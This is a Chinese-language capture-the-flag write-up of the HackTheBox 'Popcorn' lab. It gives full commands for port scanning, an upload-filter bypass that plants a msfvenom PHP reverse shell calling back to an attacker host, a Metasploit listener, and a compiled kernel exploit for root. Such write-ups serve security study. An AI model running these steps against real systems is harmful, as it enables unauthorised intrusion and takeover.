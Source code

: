 ```yaml
---
title: HackTheBox-Popcorn
tags:
  - 靶机渗透
categories:
  - 技术水文
copyright: true
abbrlink: 111fdf1c
date: 2019-01-26 16:34:12
---
```


![](https://ae01.alicdn.com/kf/HTB17aKoaqWs3KVjSZFx761WUXXa4.png)
<!--more-->

## 目标 ##

在靶机中找到user.txt和root.txt文件

## 信息收集 ##

用nmap扫描端口信息

```bash
nmap -sC -sV 10.10.10.6
```
<!--more-->
```bash
┌─[root@parrot]─[~]
└──╼ #nmap -sC -sV 10.10.10.6
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-16 13:29 EST
Nmap scan report for 10.10.10.6
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.66 seconds
```

只开了`22`和`80`端口

先使用dirb爆破80端口web服务目录

```bash
dirb http://10.10.10.6/ -r
```

找到以下目录，其中`test`下是个phpinfo

![](https://ae01.alicdn.com/kf/HTB18uKeawmH3KVjSZKz7622OXXau.png)

![](https://ae01.alicdn.com/kf/HTB1bjelaBCw3KVjSZR0762cUpXa0.png)

`torrent` 文件夹比较可疑，浏览器访问`http://10.10.10.3/torrent/`

简单的浏览了下，发现有上传文件功能。先注册个帐号

![](https://ae01.alicdn.com/kf/HTB1rdWeawmH3KVjSZKz7622OXXaI.png)

完成注册后上传一个`.torrent`文件,上传成功后跳转到一下页面，点击`Edit this torrent`按钮，弹出一个可以上传图片的窗口

![](https://ae01.alicdn.com/kf/HTB1aCOgaBWD3KVjSZFs763qkpXaM.png)

先使用msf生成一个反向链接 payload，然后修改尾缀名为`.png`

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.6 lport=4444 -f raw >test.php
mv test.php test.php.png
```

![](https://ae01.alicdn.com/kf/HTB1OLKlaBCw3KVjSZFl763JkFXat.png)

burp捉包删除尾缀名`.png`,然后上传

![](https://ae01.alicdn.com/kf/HTB1egCgaBaE3KVjSZLe760sSFXah.png)

找到上传文件所在目录，一般在`upload/`下

![](https://ae01.alicdn.com/kf/HTB1kmyeav5G3KVjSZPx762I3XXa1.png)

设置msf监听,然后浏览器打开上传的php `shell`脚本

```bash
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 10.10.14.6
set lport 4444
exploit

```

![](https://ae01.alicdn.com/kf/HTB1YYKhaBSD3KVjSZFq7634bpXat.png)

成功反弹shell

查看系统信息，linux内核为版本`2.6.31-14`，查找提权exp，这里使用`15704.c`进行编译提权获取shell会话。

```bash
searchsploit Linux 2.6.3
```
![](https://ae01.alicdn.com/kf/HTB1z4ifaEGF3KVjSZFo762mpFXau.png)

![](https://ae01.alicdn.com/kf/HTB1TgWfaEGF3KVjSZFo762mpFXad.png)

## 提权 ##

把exp上传到目标机上进行编译，提权，cat flag

```bash
upload /usr/share/exploitdb/exploits/linux/local/15704.c .
shell
ls
gcc 15704.c -o exp
chmod 777 exp && ./exp
./exp
ls /home
cat /home/george/user.txt
cat /root/root.txt

```

![](https://ae01.alicdn.com/kf/HTB1i91faA9E3KVjSZFG76319XXa7.png)
